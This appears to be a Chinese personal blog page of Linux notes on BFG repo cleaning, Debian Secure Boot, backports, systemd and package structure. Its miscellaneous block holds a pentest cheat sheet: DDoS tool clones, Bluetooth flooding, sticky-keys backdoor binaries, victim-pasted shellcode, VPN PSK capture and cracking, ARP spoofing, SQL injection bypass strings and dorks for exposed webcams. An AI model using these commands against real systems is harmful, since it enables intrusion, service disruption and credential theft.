<figure class="highlight jboss-cli"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">$ bfg <span class="params">--delete-folders</span> <span class="string">.git</span> <span class="params">--delete-files</span> <span class="string">.git</span>  <span class="params">--no-blob-protection</span>  my-repo.git</span><br></pre></td></tr></table></figure>
<p>笔记： </p>
<ul>
<li>清理Git仓库是 <em>彻底</em> 消除历史上的坏东西。如果出现“不良”情况（例如10MB的文件，则当您指定          <code>--strip-blobs-bigger-than 5M</code>）是在受保护的承诺，它 <em>不会</em> 是已删除-它将保留在您的存储库中，<a href="https://github.com/rtyley/bfg-repo-cleaner/issues/53#issuecomment-50088997" target="_blank" rel="noopener">甚至如果BFG从较早的提交中删除了 </a>。 如果您要删除BFG什么 <strong>，你需要确保你目前的提交是 *干净的*</strong> </li>
<li>请注意，尽管不会更改这些受保护的提交中的文件，但是当这些提交从较早的脏提交继续进行时，它们的提交id <strong>会</strong> 更改，以反映更改后的历史记录-只有文件系统树的SHA-1 id会保持不变。  </li>
</ul>
<p>如果您想关闭保护功能（通常不建议这样做），则可以     使用 <code>--no-blob-protection</code>旗帜： </p>
<figure class="highlight armasm"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">$ <span class="keyword">bfg </span>--<span class="keyword">strip-biggest-blobs </span><span class="number">100</span> --no-<span class="keyword">blob-protection </span>repo.git</span><br></pre></td></tr></table></figure>
<p>BFG帮助：</p>
<figure class="highlight pgsql"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br></pre></td><td class="code"><pre><span class="line">bfg <span class="number">1.14</span><span class="number">.0</span></span><br><span class="line"><span class="keyword">Usage</span>: bfg [<span class="keyword">options</span>] [&lt;repo&gt;]</span><br><span class="line"></span><br><span class="line">  -b, <span class="comment">--strip-blobs-bigger-than &lt;size&gt;</span></span><br><span class="line">                           strip blobs bigger than X (eg <span class="string">'128K'</span>, <span class="string">'1M'</span>, etc)</span><br><span class="line">  -B, <span class="comment">--strip-biggest-blobs NUM</span></span><br><span class="line">                           strip the top NUM biggest blobs</span><br><span class="line">  -bi, <span class="comment">--strip-blobs-with-ids &lt;blob-ids-file&gt;</span></span><br><span class="line">                           strip blobs <span class="keyword">with</span> the specified Git <span class="keyword">object</span> ids</span><br><span class="line">  -D, <span class="comment">--delete-files &lt;glob&gt;</span></span><br><span class="line">                           <span class="keyword">delete</span> files <span class="keyword">with</span> the specified names (eg <span class="string">'*.class'</span>, <span class="string">'*.&#123;txt,log&#125;'</span> - matches <span class="keyword">on</span> file <span class="type">name</span>, <span class="keyword">not</span> <span class="type">path</span> <span class="keyword">within</span> repo)</span><br><span class="line">  <span class="comment">--delete-folders &lt;glob&gt;  delete folders with the specified names (eg '.svn', '*-tmp' - matches on folder name, not path within repo)</span></span><br><span class="line">  <span class="comment">--convert-to-git-lfs &lt;value&gt;</span></span><br><span class="line">                           extract files <span class="keyword">with</span> the specified names (eg <span class="string">'*.zip'</span> <span class="keyword">or</span> <span class="string">'*.mp4'</span>) <span class="keyword">into</span> Git LFS</span><br><span class="line">  -rt, <span class="comment">--replace-text &lt;expressions-file&gt;</span></span><br><span class="line">                           <span class="keyword">filter</span> content <span class="keyword">of</span> files, replacing matched <span class="type">text</span>. Match expressions should be listed <span class="keyword">in</span> the file, one expression per <span class="type">line</span> - <span class="keyword">by</span> <span class="keyword">default</span>, <span class="keyword">each</span> expression <span class="keyword">is</span> treated <span class="keyword">as</span> a literal, but <span class="string">'regex:'</span> &amp; <span class="string">'glob:'</span> prefixes are supported, <span class="keyword">with</span> <span class="string">'==&gt;'</span> <span class="keyword">to</span> specify a replacement string other than the <span class="keyword">default</span> <span class="keyword">of</span> <span class="string">'***REMOVED***'</span>.</span><br><span class="line">  -fi, <span class="comment">--filter-content-including &lt;glob&gt;</span></span><br><span class="line">                           <span class="keyword">do</span> file-content filtering <span class="keyword">on</span> files that match the specified expression (eg <span class="string">'*.&#123;txt,properties&#125;'</span>)</span><br><span class="line">  -fe, <span class="comment">--filter-content-excluding &lt;glob&gt;</span></span><br><span class="line">                           don<span class="string">'t do file-content filtering on files that match the specified expression (eg '</span>*.&#123;<span class="type">xml</span>,pdf&#125;<span class="string">')</span></span><br><span class="line"><span class="string">  -fs, --filter-content-size-threshold &lt;size&gt;</span></span><br><span class="line"><span class="string">                           only do file-content filtering on files smaller than &lt;size&gt; (default is 1048576 bytes)</span></span><br><span class="line"><span class="string">  -p, --protect-blobs-from &lt;refs&gt;</span></span><br><span class="line"><span class="string">                           protect blobs that appear in the most recent versions of the specified refs (default is '</span>HEAD<span class="string">')</span></span><br><span class="line"><span class="string">  --no-blob-protection     allow the BFG to modify even your *latest* commit. Not recommended: you should have already ensured your latest commit is clean.</span></span><br><span class="line"><span class="string">  --private                treat this repo-rewrite as removing private data (for example: omit old commit ids from commit messages)</span></span><br><span class="line"><span class="string">  --massive-non-file-objects-sized-up-to &lt;size&gt;</span></span><br><span class="line"><span class="string">                           increase memory usage to handle over-size Commits, Tags, and Trees that are up to X in size (eg '</span><span class="number">10</span>M<span class="string">')</span></span><br><span class="line"><span class="string">  &lt;repo&gt;                   file path for Git repository to clean</span></span><br></pre></td></tr></table></figure>
<h3 id="未归类——杂记"><a href="#未归类——杂记" class="headerlink" title="未归类——杂记"></a>未归类——杂记</h3><figure class="highlight asciidoc"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br><span class="line">49</span><br><span class="line">50</span><br><span class="line">51</span><br><span class="line">52</span><br><span class="line">53</span><br><span class="line">54</span><br><span class="line">55</span><br><span class="line">56</span><br><span class="line">57</span><br><span class="line">58</span><br><span class="line">59</span><br><span class="line">60</span><br><span class="line">61</span><br><span class="line">62</span><br><span class="line">63</span><br><span class="line">64</span><br><span class="line">65</span><br><span class="line">66</span><br><span class="line">67</span><br><span class="line">68</span><br><span class="line">69</span><br><span class="line">70</span><br><span class="line">71</span><br><span class="line">72</span><br><span class="line">73</span><br><span class="line">74</span><br><span class="line">75</span><br><span class="line">76</span><br><span class="line">77</span><br><span class="line">78</span><br><span class="line">79</span><br><span class="line">80</span><br><span class="line">81</span><br><span class="line">82</span><br><span class="line">83</span><br><span class="line">84</span><br><span class="line">85</span><br><span class="line">86</span><br><span class="line">87</span><br><span class="line">88</span><br><span class="line">89</span><br><span class="line">90</span><br><span class="line">91</span><br><span class="line">92</span><br><span class="line">93</span><br><span class="line">94</span><br><span class="line">95</span><br><span class="line">96</span><br><span class="line">97</span><br><span class="line">98</span><br><span class="line">99</span><br><span class="line">100</span><br><span class="line">101</span><br><span class="line">102</span><br><span class="line">103</span><br><span class="line">104</span><br><span class="line">105</span><br><span class="line">106</span><br><span class="line">107</span><br><span class="line">108</span><br><span class="line">109</span><br><span class="line">110</span><br><span class="line">111</span><br><span class="line">112</span><br><span class="line">113</span><br><span class="line">114</span><br><span class="line">115</span><br><span class="line">116</span><br><span class="line">117</span><br><span class="line">118</span><br><span class="line">119</span><br><span class="line">120</span><br><span class="line">121</span><br><span class="line">122</span><br><span class="line">123</span><br><span class="line">124</span><br><span class="line">125</span><br><span class="line">126</span><br><span class="line">127</span><br><span class="line">128</span><br><span class="line">129</span><br><span class="line">130</span><br><span class="line">131</span><br><span class="line">132</span><br><span class="line">133</span><br><span class="line">134</span><br><span class="line">135</span><br><span class="line">136</span><br><span class="line">137</span><br><span class="line">138</span><br><span class="line">139</span><br><span class="line">140</span><br><span class="line">141</span><br><span class="line">142</span><br><span class="line">143</span><br><span class="line">144</span><br><span class="line">145</span><br><span class="line">146</span><br><span class="line">147</span><br><span class="line">148</span><br><span class="line">149</span><br><span class="line">150</span><br><span class="line">151</span><br><span class="line">152</span><br><span class="line">153</span><br><span class="line">154</span><br><span class="line">155</span><br><span class="line">156</span><br><span class="line">157</span><br><span class="line">158</span><br><span class="line">159</span><br><span class="line">160</span><br><span class="line">161</span><br><span class="line">162</span><br><span class="line">163</span><br></pre></td><td class="code"><pre><span class="line">=========================================================================================</span><br><span class="line">git clone https://github.com/chetan31295/pentmenu.git</span><br><span class="line">git clone https://github.com/thelinuxchoice/ddostor.git</span><br><span class="line">git clone https://github.com/zanyarjamal/zambie.git</span><br><span class="line">git clone https://github.com/Yukinoshita47/Yuki-Chan-The-Auto-Pentest.git</span><br><span class="line">git clone https://github.com/zanyarjamal/xerxes.git</span><br><span class="line">=========================================================================================</span><br><span class="line"># Linux 密码加盐</span><br><span class="line">python3 -c <span class="emphasis">'import crypt; print(crypt.crypt("password123", crypt.mksalt(crypt.METHOD_SHA256)))</span></span><br><span class="line"><span class="emphasis">=========================================================================================</span></span><br><span class="line"><span class="emphasis"># 查看显示类型为X11或者Wayland：</span></span><br><span class="line"><span class="emphasis">loginctl</span></span><br><span class="line"><span class="emphasis">loginctl show-session 1 | grep Type</span></span><br><span class="line"><span class="emphasis"># 或者</span></span><br><span class="line"><span class="emphasis">echo $XDG_SESSION_TYPE</span></span><br><span class="line"><span class="emphasis">=========================================================================================</span></span><br><span class="line"><span class="emphasis"># 制作Debian安装盘，在U盘未挂载的情况下：</span></span><br><span class="line"><span class="emphasis"># cp debian.iso /dev/sdX</span></span><br><span class="line"><span class="emphasis"># sync</span></span><br><span class="line"><span class="emphasis">注意事项：/dev/sdb 而不是 /dev/sdb1</span></span><br><span class="line"><span class="emphasis">The hybrid image on the stick does not occupy all the storage space, so it may be worth considering using the free space to hold firmware files or packages or any other files of your choice. This could be useful if you have only one stick or just want to keep everything you need on one device.</span></span><br><span class="line"><span class="emphasis">Create a second, FAT partition on the stick, mount the partition and copy or unpack the firmware onto it. For example: </span></span><br><span class="line"><span class="emphasis"># mount /dev/sdX2 /mnt</span></span><br><span class="line"><span class="emphasis"># cd /mnt</span></span><br><span class="line"><span class="emphasis"># tar zxvf /path/to/firmware.tar.gz</span></span><br><span class="line"><span class="emphasis"># cd /</span></span><br><span class="line"><span class="emphasis"># umount /mnt</span></span><br><span class="line"><span class="emphasis">You might have written the mini.iso to the USB stick. In this case the second partition doesn'</span>t have to be created as, very nicely, it will already be present. Unplugging and replugging the USB stick should make the two partitions visible. </span><br><span class="line">=========================================================================================</span><br><span class="line"># 用tar备份与还原(不好用，系统备份建议用Clonezilla)</span><br><span class="line">备份：<span class="code">`tar cvpzf backup.tgz[文件名] --exclude=proc[除外的目录] --exclude=lost+found --exclude=backup.tgz --exclude=mnt --exclude=sys --exclude=media /`</span></span><br><span class="line"></span><br><span class="line">还原:<span class="code">`tar xvpfz backup.tgz -C / &amp;&amp; mkdir proc &amp;&amp; mkdir lost+found &amp;&amp; mkdir mnt &amp;&amp; mkdir sys`</span></span><br><span class="line">=========================================================================================</span><br><span class="line"># 蓝牙攻击</span><br><span class="line">service bluetooth start</span><br><span class="line">hciconfig</span><br><span class="line">fang -s</span><br><span class="line">fang -r b0aa3618e5d8-b0aa3618e5f4 -s</span><br><span class="line">hcitool lescan</span><br><span class="line">hcitool inq</span><br><span class="line">sdptool browse &lt;mac&gt;</span><br><span class="line">l2ping &lt;mac&gt; -f -s 2000</span><br><span class="line">apt-get install minicom</span><br><span class="line">blueranger hci0 [mac]</span><br><span class="line">======================================================================================</span><br><span class="line"># Windows中可代替粘滞键的后门文件：</span><br><span class="line">sethc.exe</span><br><span class="line">utilman.exe</span><br><span class="line">osk.exe</span><br><span class="line">narrator.exe</span><br><span class="line">magnify.exe</span><br><span class="line">displayswitch.exe</span><br><span class="line">=========================================================================================</span><br><span class="line"># shellcode注入攻击：</span><br><span class="line">setoolkit中1,9生成shellcode</span><br><span class="line">在说服受害者在命令行下复制shellcode则生效</span><br><span class="line">=========================================================================================</span><br><span class="line"># WebWAF防火墙探测 及 负载均衡器探测：</span><br><span class="line">wafw00f www.baidu.com</span><br><span class="line">lbd www.baidu.com</span><br><span class="line">=========================================================================================</span><br><span class="line"># 自动扫描仪扫描web的CMS（内容管理系统）：</span><br><span class="line">BlindElephant.py www.baidu.com joomla</span><br><span class="line">=========================================================================================</span><br><span class="line"># 网络爬虫探测网站现有目录和文件结构：</span><br><span class="line">使用DirBuster</span><br><span class="line">=========================================================================================</span><br><span class="line"># 扫描VPN(IPSec)：</span><br><span class="line">nmap -sU -Pn -p 500 &lt;IP&gt;</span><br><span class="line">ike-scan -M &lt;IP&gt;</span><br><span class="line">ike-scan -M --showbackoff 192.168.0.10</span><br><span class="line">截获预共享密钥：</span><br><span class="line">ike-scan --pskcrack --aggressive --id=peer &lt;target&gt;</span><br><span class="line">ike-scan -M -A -Ppsk-hash -d &lt;target&gt;(输出文件)</span><br><span class="line">离线破解PSK：</span><br><span class="line">psk-crack -d rockyou-75.txt psk-hash</span><br><span class="line">=========================================================================================</span><br><span class="line"># armitage</span><br><span class="line">service postgresql start</span><br><span class="line">=========================================================================================</span><br><span class="line"># 端口</span><br><span class="line">67:DHCPserver</span><br><span class="line">68:DHCPclient</span><br><span class="line">5900:VNC</span><br><span class="line">=========================================================================================</span><br><span class="line"># 修改网卡MAC：</span><br><span class="line">ifconfig wlan0 down</span><br><span class="line">ifconfig wlan0 hw ether 00:00:00:00:00:11</span><br><span class="line">ifconfig wlan0 up</span><br><span class="line">永久修改：</span><br><span class="line">vim /etc/network/interfaces</span><br><span class="line">添加下行：</span><br><span class="line">pre-up ifconfig wlan0 hw ether 00:00:00:00:00:11</span><br><span class="line">=========================================================================================</span><br><span class="line">更改grub启动图片：	</span><br><span class="line">/usr/share/images/desktop-base/</span><br><span class="line">update-grub</span><br><span class="line">=========================================================================================</span><br><span class="line"># ettercap ARP欺骗</span><br><span class="line">ettercap -Tqi eth1 -M arp:remote /10.128.128.212// /10.128.128.1//</span><br><span class="line">=========================================================================================</span><br><span class="line">Google搜索SQL注入点：</span><br><span class="line">site:[URL] inurl:login</span><br><span class="line">=========================================================================================</span><br><span class="line">第三方渗透模块：</span><br><span class="line">W3AF  综合性web应用扫描审计</span><br><span class="line">SQLmap  SQL注入</span><br><span class="line">wXf  开元web渗透框架</span><br><span class="line">XSSF  跨站式脚本攻击</span><br><span class="line">BeEF  浏览器攻击平台框架</span><br><span class="line">其他：</span><br><span class="line">Wapiti:SQL扫描准确度第一</span><br><span class="line">burpsuite：神器</span><br><span class="line">=========================================================================================</span><br><span class="line">数据库“重灾区”：</span><br><span class="line">microsoft SQL Server 1433端口  mssql<span class="emphasis">_ping</span></span><br><span class="line"><span class="emphasis">Oracle SQL监听器 tnslsnr:1521  tnslsnr_</span>version</span><br><span class="line">=========================================================================================</span><br><span class="line">SQL注入示例：</span><br><span class="line">SECLECT * FROM [USERS] WHERE USERNAME = ? AND PASSWORD = ?</span><br><span class="line">改成：</span><br><span class="line">SECLECT * FROM [USERS] WHERE USERNAME = <span class="emphasis">'admin'</span>OR'1' AND PASSWORD = <span class="emphasis">'test'</span>OR'1'</span><br><span class="line">或者:</span><br><span class="line">SECLECT * FROM [USERS] WHERE USERNAME = <span class="emphasis">'admin'</span>OR 1=1-- AND PASSWORD = <span class="emphasis">'任意值'</span></span><br><span class="line">=========================================================================================</span><br><span class="line">google hacking:</span><br><span class="line">inurl:”viewerframe?mode=motion    在线视频摄像头</span><br><span class="line">intitle:”Live View / – AXIS</span><br><span class="line">filetype:xls inurl:”email.xls</span><br><span class="line">intitle:index.of xxxxx   wwwroot.zip等敏感信息的打包文件，这些信息泄露对黑客来说是极具有危险性的</span><br><span class="line">intitle:”VNC Viewer for Java </span><br><span class="line">Active Webcam Page” inurl:8080</span><br><span class="line">=========================================================================================</span><br><span class="line"># 破解zip：</span><br><span class="line">zip2john [zip<span class="emphasis">_file] &gt;&gt; ./hash</span></span><br><span class="line"><span class="emphasis">john hash --wordlist=[Dictionary]</span></span><br><span class="line"><span class="emphasis">=========================================================================================</span></span><br><span class="line"><span class="emphasis"># 添加网关到路由：</span></span><br><span class="line"><span class="emphasis">route add default gw 192.168.1.1 dev wlan0</span></span><br><span class="line"><span class="emphasis">=========================================================================================</span></span><br><span class="line"><span class="emphasis"># 查看日志</span></span><br><span class="line"><span class="emphasis">head -10000 /var/lib/mysql/slowquery.log &gt; temp.log</span></span><br><span class="line"><span class="emphasis">=========================================================================================</span></span><br><span class="line"><span class="emphasis"># android x86显示图形界面：</span></span><br><span class="line"><span class="emphasis">进入debug模式</span></span><br><span class="line"><span class="emphasis">mount -o remount,re/mnt</span></span><br><span class="line"><span class="emphasis">vi /mnt/grub/menu.lst</span></span><br><span class="line"><span class="emphasis">在第一个d的root前面加入nomodeset_</span></span><br><span class="line">=========================================================================================</span><br><span class="line"># 关于git ignore生效：</span><br><span class="line"><span class="code">    #add .gitignore</span></span><br><span class="line"><span class="code">    #查看状态，是否忽略了指定的文件？ </span></span><br><span class="line"><span class="code">    $ git status --ignored #查看状态，包括忽略的文件</span></span><br><span class="line"><span class="code">     </span></span><br><span class="line"><span class="code">    #让其对已经跟踪的文件也起作用</span></span><br><span class="line"><span class="code">    $ git rm -r --cached .  #清除缓存 -r 表示递归删除（如果有文件夹的话） . 表示所有文件</span></span><br><span class="line"><span class="code">     </span></span><br><span class="line"><span class="code">    #查看一下具体效果</span></span><br><span class="line"><span class="code">    $ git status --ignored</span></span><br><span class="line"><span class="code">    $ git add .           #重新trace file</span></span><br><span class="line"><span class="code">    $ git commit -m "update .gitignore"     #提交和注释</span></span><br><span class="line">=========================================================================================</span><br></pre></td></tr></table></figure>
<h2 id="Debian-Notes"><a href="#Debian-Notes" class="headerlink" title="Debian Notes"></a>Debian Notes</h2><blockquote>
<p>安全启动和填充程序启动程序</p>
<p>安全启动是一项确保您仅运行由操作系统供应商验证的软件的技术。为了完成其工作，引导序列中的每个元素都会验证它将执行的下一个软件组件。在最深层，UEFI固件嵌入了Microsoft提供的加密密钥，以检查引导加载程序的签名，以确保执行安全。由于由Microsoft进行二进制签名是一个漫长的过程，因此Debian决定不直接对GRUB进行签名。取而代之的是，它使用一个称为shim的中间引导程序，该引导程序几乎不需要更改，其唯一作用是检查Debian在GRUB上提供的签名并执行GRUB。要在启用了安全启动的机器上运行Debian，您需要安装由shim签名的软件包。<br>在堆栈中，GRUB将对内核进行类似的检查，然后内核可能还会检查要加载的模块上的签名。内核也可能禁止某些可能改变系统完整性的操作。<br>Debian 10是第一个支持安全启动的发行版。以前，您必须在BIOS或UEFI提供的系统设置程序屏幕中禁用该功能。 </p>
</blockquote>
<figure class="highlight routeros"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line">CULTURE Secure Boot <span class="keyword">and</span> the shim bootloader</span><br><span class="line">Secure Boot is a technology ensuring that you <span class="builtin-name">run</span> only software validated by your operating<span class="built_in"> system </span>vendor. <span class="keyword">To</span> accomplish its work each element of the boot sequences validates the next software component that it will execute. At the deepest level, the UEFI<span class="built_in"> firmware </span>embeds cryptographic keys provided by Microsoft <span class="keyword">to</span> check the bootloader<span class="string">'s signature, ensuring that it is safe to execute. Since getting a binary signed by Microsoft is a lengthy process, Debian decided to not sign GRUB directly. Instead it uses an intermediary bootloader called shim, which almost never needs to change, and whose only role is to check Debian'</span>s provided signature on GRUB <span class="keyword">and</span> execute GRUB. <span class="keyword">To</span> <span class="builtin-name">run</span> Debian on a machine having Secure Boot enabled, you need <span class="keyword">to</span> install the shim-signed package.</span><br><span class="line">Down the stack, GRUB will <span class="keyword">do</span> a similar check with the kernel, <span class="keyword">and</span> then the kernel might also check signatures on modules that <span class="builtin-name">get</span> loaded. The kernel might also forbid some operations that could alter the integrity of the system.</span><br><span class="line">Debian 10 is the first release supporting Secure Boot. Before, you had <span class="keyword">to</span> <span class="builtin-name">disable</span> that feature <span class="keyword">in</span> the<span class="built_in"> system </span>setup<span class="built_in"> screen </span>offered by the BIOS <span class="keyword">or</span> the UEFI.</span><br></pre></td></tr></table></figure>
<h3 id="我该如何安装-Debian-Sid？"><a href="#我该如何安装-Debian-Sid？" class="headerlink" title="我该如何安装 Debian Sid？"></a>我该如何安装 Debian Sid？</h3><p>正规的答案是：Debian 从不发布 unstable。你只能从 testing 升级至它。你可以以编辑 /etc/apt/sources.list 的方式更改你的软件源，从 testing 变为 unstable。（如果你安装的是稳定版，你应该先升级为 testing 再升级为 unstable。）</p>
<p>如果你在使用从 testing 分支而来的网络安装方式，直接安装 sid 的软件包（而不是 testing 的软件包）也是可能的。这种方式不被支持，但如果你想试试看，我们也不会拦着你。到底来说这还是你自己的机器，只要别在出问题时哭鼻子就好。</p>
<h3 id="Debian-Backports的简单使用"><a href="#Debian-Backports的简单使用" class="headerlink" title="Debian Backports的简单使用"></a>Debian Backports的简单使用</h3><blockquote>
<p>反向移植是在稳定环境中经过测试（主要是经过测试）和不稳定（在少数情况下，例如，安全更新）重新编译的软件包，因此它们将在Debian稳定发行版上在没有新库的情况下（只要有可能）运行。</p>
<p>不能对Backports进行像Debian稳定版那样广泛的测试，并且按原样提供Backports，存在与Debian稳定版中其他组件不兼容的风险。小心使用！</p>
<p>因此，建议选择适合您需要的单个反向移植软件包，而不要使用所有可用的反向移植。</p>
<p>通俗说，你可以在<a href="https://backports.debian.org/" target="_blank" rel="noopener">Backports</a>中找到稳定版中没有的软件包。</p>
</blockquote>
<h4 id="将反向端口添加到您的sources-list"><a href="#将反向端口添加到您的sources-list" class="headerlink" title="将反向端口添加到您的sources.list"></a>将反向端口添加到您的sources.list</h4><ol>
<li><p>添加下列：</p>
<figure class="highlight groovy"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">deb <span class="string">http:</span><span class="comment">//deb.debian.org/debian buster-backports main</span></span><br></pre></td></tr></table></figure>
<p>到您的<strong>sources.list</strong> （或在/etc/apt/sources.list.d/中添加扩展名为“ .list”的新文件）。</p>
</li>
<li><p>运行<strong>apt-get更新</strong></p>
</li>
</ol>
<h3 id="从Backports安装软件包"><a href="#从Backports安装软件包" class="headerlink" title="从Backports安装软件包"></a>从Backports安装软件包</h3><p>默认情况下，所有Backport均处于禁用状态（即，使用ButAutomaticUpgrades将软件包固定为100，在Release文件中为“是”。如果要从反向端口安装某些内容，请运行：</p>
<figure class="highlight actionscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">apt-<span class="keyword">get</span> install &lt;<span class="class"><span class="keyword">package</span>&gt;/<span class="title">buster</span>-<span class="title">backports</span></span></span><br></pre></td></tr></table></figure>
<p>当然，您也可以使用aptitude：</p>
<figure class="highlight sql"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">aptitude <span class="keyword">install</span> &lt;<span class="keyword">package</span>&gt;/buster-backports</span><br></pre></td></tr></table></figure>
<p>有几种不同的方法可以确定某个Debian软件包的反向端口是否存在。一个非常方便的方法是使用Debian的基于Web的软件包搜索（<a href="https://packages.debian.org/" target="_blank" rel="noopener">packages.debian.org</a>）。</p>
<p>使用<code>apt search</code>命令搜索软件包名称时，也会出现软件包的反向移植版本，或者可以通过运行以下命令查看软件包的所有可用版本：</p>
<figure class="highlight sql"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line">apt <span class="keyword">show</span> <span class="keyword">package</span>-<span class="keyword">name</span> -a</span><br><span class="line"><span class="comment"># 安装cockpit</span></span><br><span class="line">apt -t buster-backports <span class="keyword">install</span> cockpit</span><br></pre></td></tr></table></figure>
<p>列出已安装的backport</p>
<figure class="highlight gradle"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">dpkg-query -W | <span class="keyword">grep</span> <span class="string">'~bpo'</span></span><br></pre></td></tr></table></figure>
<h4 id="“草率“（随意…-）发行版"><a href="#“草率“（随意…-）发行版" class="headerlink" title="“草率“（随意…?）发行版"></a>“草率“（随意…?）发行版</h4><p>为了保证从先前稳定的发行版到下一个稳定发行版的升级路径整洁，不允许将程序包从当前测试上传到该反向移植发行版。为了允许这些系统使用一些较新的软件包，我们创建了所谓的草率发行版。</p>
<p>您可以将其完全用作当前backport发行版，只需向您的<strong>sources.list</strong>添加另一行，然后通过apt-get -t Stretch-backports install安装新软件包</p>
<h4 id="订阅安全公告邮件列表"><a href="#订阅安全公告邮件列表" class="headerlink" title="订阅安全公告邮件列表"></a>订阅安全公告邮件列表</h4><p>如果要在backports.debian.org上获取有关安全更新的公告，请订阅<a href="https://lists.debian.org/debian-backports-announce/" target="_blank" rel="noopener">debian-backports-announce邮件列表</a>。</p>
<h4 id="报告错误"><a href="#报告错误" class="headerlink" title="报告错误"></a>报告错误</h4><p>请将您在软件包中找到的错误报告给<a href="https://lists.debian.org/debian-backports/" target="_blank" rel="noopener">backports邮件列表，</a>而<strong>不要报告</strong>给Debian BTS！</p>
<h3 id="Systemd"><a href="#Systemd" class="headerlink" title="Systemd"></a>Systemd</h3><blockquote>
<p>关于加速启动速度：<a href="https://wiki.debian.org/BootProcessSpeedup" target="_blank" rel="noopener">https://wiki.debian.org/BootProcessSpeedup</a></p>
</blockquote>
<p>查看服务被依赖：例如查看<code>NetworkManager-wait-online.service</code>被哪些依赖：<code>systemctl list-dependencies --reverse  NetworkManager-wait-online.service</code></p>
<p>查看开机服务占用时间（仅供参考，不大准）：<code>systemd-analyze blame</code></p>
<p>查看服务的启动顺序：<code>systemd-cgls</code></p>
<p>查看启动时间：<code>systemd-analyze</code></p>
<p>导出启动流程图：<code>systemd-analyze plot &gt; boot.svg</code></p>
<h3 id="Debian-Package"><a href="#Debian-Package" class="headerlink" title="Debian Package"></a>Debian Package</h3><ol>
<li><p>二进制包的结构</p>
<p>Debian的包可以任何Unix系统的经典命令来提取，如<code>ar</code>，<code>tar</code>和<code>xz</code>或<code>gzip</code>或<code>bzip2</code>。这个看似微不足道的特性对于可移植性和灾难恢复很重要。    </p>
<p><code>dpkg</code>本身也是Debian的软件包，你需要用<code>dpkg</code>来安装Debian软件包…如果您错误地删除了<code>dpkg</code>程序，您将无法再安装Debian软件包。幸运的是，您知道软件包的格式，因此可以<a href="https://www.debian.org/distrib/packages#search_packages" target="_blank" rel="noopener">下载</a>dpkg软件包的<code>.deb</code>文件并手动安装（请参见sidebar<a href="https://www.debian.org/doc/manuals/debian-handbook/packaging-system.zh-cn.html#sidebar.dpkg-apt-ar" target="_blank" rel="noopener"><em>工具</em></a>）。如果你不幸丢失<code>ar</code>、<code>tar</code>、<code>gzip</code>、<code>xz</code>、<code>bzip2</code>中的一个或多个程序，您只需要从另一个完整的系统复制丢失的程序（由于这几个程序都以完全自主的方式运行，没有依赖关系，因此只需一个简单的复制就可以了）。如果您的系统遭受了更大的损失，甚至连这些都不起作用（也许缺少最深层的系统共享库？），您应该尝试使用的静态版本<code>busybox</code>（在<code>busybox-static</code>软件包中提供），该版本更加相对独立且提供了如<code>busybox ar</code>，<code>busybox tar</code>和<code>busybox xz</code>的子命令。</p>
<p>为了应对突发状况，你需要不时对系统进行备份：(Debian Doc：<a href="https://www.debian.org/doc/manuals/debian-handbook/sect.backup.zh-cn.html" target="_blank" rel="noopener">第 9.10 节 “备份”</a>)。关于手册<code>man</code>请查看：<a href="https://www.debian.org/doc/manuals/debian-handbook/solving-problems.zh-cn.html" target="_blank" rel="noopener">第 7 章 <em>问题的解决与相关信息的检索</em></a> 更详细地讨论手册页 (参见 <a href="https://www.debian.org/doc/manuals/debian-handbook/solving-problems.zh-cn.html#sect.manual-pages" target="_blank" rel="noopener">第 7.1.1 节 “手册页面”</a>)。     </p>
